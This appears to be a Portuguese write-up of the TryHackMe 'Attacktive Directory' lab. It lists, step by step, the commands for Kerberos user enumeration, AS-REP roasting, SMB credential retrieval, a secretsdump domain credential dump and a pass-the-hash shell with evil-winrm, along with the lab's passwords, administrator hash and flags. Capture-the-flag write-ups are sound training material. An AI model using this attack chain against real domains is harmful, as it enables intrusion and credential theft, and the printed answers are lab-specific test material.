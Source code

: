 # Attacktive-Directory

#TASK 3 - Enumeração Bem-vindo ao Diretório Attacktive

Questions

nmap -n -T4 -sCV $TARGET_IP

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/48b2485d-b7e0-4bbc-a3e2-d9d8b87a8fa6)

1 - Qual ferramenta nos permitirá enumerar a porta 139/445?
R: enum4linux

enum4linux -U $TARGET_IP

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/9b888e47-7d55-4d9b-84b6-4f178c34f684)

2 - Qual é o nome de domínio NetBIOS da máquina?
R: THM-AD

Na imagem abaixo podemos observar que não tem um domínio, então a máquina é local.

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/e30c3c0c-8bd7-4da3-8417-53b0e0004e3b)

3 - Qual TLD inválido as pessoas costumam usar para seu domínio do Active Directory?
R: .local

#TASK 4 -  Enumeração Enumerando usuários via Kerberos

Download · [ropnop/kerbrute · GitHub](https://github.com/ropnop/kerbrute/releases/) - Github

Terminal commands

chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64

Renomear o diretório
mkdir /opt/kerbrute
cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute

Baixar lista de usuários e senhas

wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt


Questions

./kerbrute -h

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/5b192e04-bfe3-42e3-a4c1-208411f4e310)


1 - Qual comando do Kerbrute nos permitirá enumerar nomes de usuários válidos?
R: userenum

sudo nano /etc/hosts
adicionar IP e domínio

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/32be622c-6d70-440b-a727-c8d246825edd)

/opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt

2 - Que conta notável é descoberta? (Estes devem saltar para você)
R: svc-admin

3 - Qual é a outra conta notável descoberta? (Estes devem saltar para você)
R: backup


# TASK 5 - Exploitation Abusing Kerberos

Questions

GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.154.98

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/0054948e-1362-4e20-9468-b8dd9b73ec10)

GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.154.98

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/45d06cfb-0017-415d-ac4f-54821eb71ebc)


1 - Temos duas contas de usuário nas quais poderíamos consultar um ticket. De qual conta de usuário você pode consultar um ticket sem senha?
R: svc-admin

https://hashcat.net/wiki/doku.php?id=example_hashes
Hash mode: 18200
Hash name: Kerberos 5 AS-REP etype 23

2 - Olhando para a página Wiki de exemplos de Hashcat, que tipo de hash Kerberos recuperamos do KDC? (Especifique o nome completo)
R: Kerberos 5 AS-REP etype 23

3 - Qual modo é o hash?
R: 18200

4 - Agora quebre o hash com a lista de senhas modificadas fornecida, qual é a senha das contas de usuário?
R: management2005

# TASK 6 - Enumeration Back to the Basics

Questions

1 - Que utilitário podemos usar para mapear compartilhamentos SMB remotos?
R: SMBClient

2 - Qual opção listará os compartilhamentos?
R: -L

smbclient -U spookysec.local/svc-admin -L //10.10.154.98

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/58c665df-c15f-48cb-9662-6a8f841d3cd1)


3 - Quantos compartilhamentos remotos o servidor está listado?
R: 6

4 - Há um compartilhamento específico ao qual temos acesso que contém um arquivo de texto. Qual é a parcela?
R: backup

smbclient -U spookysec.local/svc-admin //10.10.154.98/backup

ls
get backup_credentials.txt
cat backup_credentials.txt

5 - Qual é o conteúdo do arquivo?
R: YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d

6 - Decodificando o conteúdo do arquivo, qual é o conteúdo completo?
R: backup@spookysec.local:backup2517860

# TASK 7 - Domain Privilege Escalation Elevating Privileges within the Domain

Questions

1 - Qual método nos permitiu descartar o NTDS.DIT?
R: DRSUAPI

secretsdump.py -dc-ip 10.10.154.98 spookysec.local/backup:backup2517860@10.10.154.98

2 - Qual é o hash NTLM dos administradores?
R: 0e0363213e37b94221497260b0bcb4fc

3 - Que método de ataque poderia nos permitir autenticar como usuário sem a senha?
R: pass the hash

4 - Usando uma ferramenta chamada Evil-WinRM, qual opção nos permitirá usar um hash?
R: -H

# TASK 8 - Flag Submission Flag Submission Panel

evil-winrm -i 10.10.154.98 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
cd \users
more svc-admin\desktop\user.txt.txt

svc-admin
R: TryHackMe{K3rb3r0s_Pr3_4uth}

more backup\desktop\PrivEsc.txt

backup
R: TryHackMe{B4ckM3UpSc0tty!}

more administrator\desktop\root.txt

Administrator
R: TryHackMe{4ctiveD1rectoryM4st3r}
